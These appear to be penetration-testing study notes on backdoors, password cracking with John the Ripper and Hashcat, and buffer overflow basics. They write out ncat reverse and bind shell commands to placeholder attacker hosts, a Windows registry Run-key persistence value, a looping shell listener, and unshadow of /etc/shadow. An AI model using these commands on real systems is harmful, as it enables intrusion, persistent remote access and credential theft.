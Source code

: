 # System Attacks

## Backdoor

Backdoors have two components, server and client:

* _Server_ runs on the victim machine listening on the network in order to accept connections.
* _Client_ runs on the attacker machine.
* `Netbus` or `SubSeven` are very famous.
* If the backdoor server sits behind a firewall, the easiest way to archive a connection is using a **Connect-back Backdoor** or **Reverse Backdoor**.
* A firewall cannot tell the difference between a user surfing the web and a backdoor connecting back to the attacker's machine.

### Create stable connection to a remote host

```bash
# => Listener
ncat -l -v -p 5555 -e /bin/bash
# => Client
ncat localhost 5555

## Reverse connection
# => Attacker/Listener
ncat -l -p 5555 -v
# => Victim / Client
ncat -e /bin/bash remoteIP remotePort

# bash interactive for friendly prompt
bash -i
```

```bash
# Persist execution in windows
> regedit.exe
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\CurrentVersion\Run

# Add string value
Name: ncact
Value: yourpath\ncat attackerMachine Port -e cmd.exe
```

```bash
# Persistent connection script
# By default netcat does not have a persistent connection.
# You will need to run it in a while loop if you want to connect to it more than once.
# Otherwise it will close the program after the first connection:
# https://defcon.org/images/defcon-22/dc-22-presentations/Nemus/DEFCON-22-Lance-Buttars-Nemus-Intro-to-backdooring-OS.pdf

#!/bin/bash
while [ 1 ]; do
  echo | ncat -l -v -p 445 -e /bin/bash
done
```

## Password Attacks

Normally stored in an encrypted form, preventing a malicious local user from getting to know user's passwords, using a _one-way encryption algorithm_, using a cryptographic hashing function. There are three main strategies:

### Brute force attacks

> This method is only used when other attack vectors fail.

You try them all by _generating_ and testing all the possible valid passwords. Given enough time, a brute force attack is always successful.

* Long passwords made by upper and lower case letters, numbers and symbols can take days or even years to crack
* _John The Ripper_: can mount both brute force and dictionary-based attacks against a password database \(see: `john --list=formats`\)
  * Fast because of the high use of parallelization, crack strategies
  * `/etc/passwd`: contains info about user accounts
  * `/etc/shadow`: contains info about the actual password hashes
  * `john` needs the username and the password hashes to be in the same file, therefore we need to use the `unshadow` utility that comes with _John The Ripper_
  * `john -incremental -users:<users list> <file to crack>`
  * `john -incremental -users:victim crackme`
  * To display the passwords recovered by `john`, use: `john --show <file>`

### Dictionary attacks

* Common passwords
* Faster than pure brute force attacks
* Poorly chosen or default passwords are more exposed to dictionary cracking
* `john -wordlist=<custom wordlist file> <file to crack>`
* Install password dictionaries: `apt-get install seclists`
  * You'll find them in `/usr/share/seclists/Passwords`
* **Mangling words**
  * Variations on dictionary words
  * `john -wordlist=<custom wordlist file> <file to crack> -rules <file to crack>`

### Rainbow Tables

* Offer a tradeoff between the processing time needed to calculate the hash of a password and the storage space needed to mount an attack.
* A rainbow table contains links between the results of a run of one hashing function and another.
* Rainbow tables are BIG in file size, but reduces a cracking session from days to seconds.
* Great choice to crack simple and complex short passwords.
* `Ophcrack` rainbow cracking for Windows authentication passwords \(can run on Linux too\).

## John the Ripper

```bash
unshadow /etc/passwd /etc/shadow > hashes.txt
john --wordlist=/usr/share/john/password.lst hashes.txt
cat /root/.john/john.pot
```

## Hashcat

```bash
# -m hash-type
# -a various attack mode
# -b benchmark
# -D specify the device
# -O optimize performance

> hashcat -b

# Wordlist attack
> hashcat -m 0 -a 0 -D2 example.hash example.dict
# -m 0 md5 type of hash
# -a 0 simple dictionary attack

# Rules
# Mutate dictionary words by setting different rules
custom.rule:

l
u
c
r
$1
$2
[
]
^1
^a
^!$!

# also hashcat comes with builtin rules

# Mask Attack
# 5 letter passwords = 5 masks
> hascat -m 0 -a 3 example.hash ?l?l?l?l
```

## Buffer Overflow Attacks

A BoF attack can lead to:

* An app or OS crash \(DoS\).
* Privilege escalation.
* Remote code execution.
* Security features bypass.

A buffer is an area in the RAM reserved for temporary data storage:

* User input, parts of a video file, server banners received by a client application. etc.
* Buffers have a finite size, therefore: if an app developer does not enforce a buffer limit, an attacker could find a way to write data beyond those limits and write there arbitrary code

### Stack

* A stack is a data structure used to store data.
* Two operation for LIFO stacks: `pop` & `push`.
* Space on the stack can be allocated from app's code.
* An overflow happens when an attacker overwrites on a reserved space, so overwriting a function return address means getting control over the app.
* If an attacker manages to overflow a local variable from the app, the attacker would be able to overwrite the _Base Pointer_ and then get a _Return Address_.
* If the attacker overwrites the _Return Address_ with the right value, they are able to control the execution flow of the program.
* This technique can be exploited by writing custom tools and applications or by using hacking tools as Metasploit.

Being able to write a buffer overflow exploit requires a deep understanding of assembly programming, how applications and OS works and some exotic programming skills.

